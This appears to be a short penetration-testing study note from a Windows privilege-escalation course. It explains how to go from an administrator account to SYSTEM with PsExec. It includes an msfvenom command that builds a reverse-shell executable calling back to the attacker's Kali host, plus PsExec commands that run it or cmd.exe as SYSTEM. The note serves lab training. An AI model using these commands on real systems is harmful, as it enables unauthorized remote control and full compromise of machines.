 To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals.

[https://docs.microsoft.com/en-us/sysinternals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

A copy is included in the course tools ZIP archive.

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe -o reverse.exe
```

```powershell - target
.\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

[[Python#Server]]

[[4._File Transfers]]

#### RDP
RDP'd in and then just ran the command prompt as Administrator, followed by:

```command prompt - target
powershell
```

```powershell - target
.\PsExec64.exe -i -s cmd.exe
```
